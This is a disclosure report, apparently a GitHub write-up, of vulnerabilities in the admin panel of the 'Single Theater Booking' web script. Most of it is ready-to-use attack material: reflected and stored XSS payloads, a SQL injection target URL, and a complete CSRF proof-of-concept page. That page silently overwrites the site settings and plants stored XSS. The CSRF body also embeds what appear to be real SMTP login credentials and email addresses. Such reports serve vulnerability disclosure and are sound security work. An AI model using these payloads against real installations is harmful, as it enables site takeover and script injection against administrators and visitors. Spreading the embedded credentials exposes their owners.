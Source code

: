 ### Single Theater Booking- the lastest version - SQL Injection/XSS/CSRF

Well,  when I pentest the official demo site of Single Theater Booking, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.theaterbookingscript.com/demo/theater-booking/single-theater/admin/viewtheatre.php?theatreid=29%27%22%3Etest%3Cimg%20src=x%20onerror=console.log(%27xss2%27)%3Etest%3C%27%22test
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Single-Theater-Booking/xss1.png)


##### Stored-XSS 

```
http://www.theaterbookingscript.com/demo/theater-booking/single-theater/admin/sitesettings.php
```

POST parameters:

```
------WebKitFormBoundaryw7uoyadfrLjLSWLe
Content-Disposition: form-data; name="title"

Ticket Booking'"><svg/onload=alert('xss')><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Single-Theater-Booking/xss2.png)


#### SQL Injection:

##### sqli
```
http://www.theaterbookingscript.com/demo/theater-booking/single-theater/admin/movieview.php?movieid=56
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Single-Theater-Booking/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.theaterbookingscript.com\/demo\/theater-booking\/single-theater\/admin\/sitesettings.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryw7uoyadfrLjLSWLe");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"websitename\"\r\n" + 
          "\r\n" + 
          "Ticket Booking \r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"title\"\r\n" + 
          "\r\n" + 
          "Ticket Booking\'\"\x3e\x3csvg/onload=alert(\'xss\')\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"admin_mailid\"\r\n" + 
          "\r\n" + 
          "info@phpscriptsmall.com\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"keyword\"\r\n" + 
          "\r\n" + 
          "Ticket Booking\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "Good\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"websiteurl\"\r\n" + 
          "\r\n" + 
          "http://www.theaterbookingscript.com/demo/theater-booking/single-theater/\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"smtpserver\"\r\n" + 
          "\r\n" + 
          "mail.subamangla.in\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"smtpuser\"\r\n" + 
          "\r\n" + 
          "info@subamangla.in\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"smtppass\"\r\n" + 
          "\r\n" + 
          "subamangla\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"paypal\"\r\n" + 
          "\r\n" + 
          "raja.inetsolution@gmail.com\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"commision\"\r\n" + 
          "\r\n" + 
          "10\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"cutoff\"\r\n" + 
          "\r\n" + 
          "10\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"logo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"oldlogo\"\r\n" + 
          "\r\n" + 
          "146598893614322806471390649927ticket1.png\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```

This vulnerability does not need evil attacker to login into the admin or the user panel.

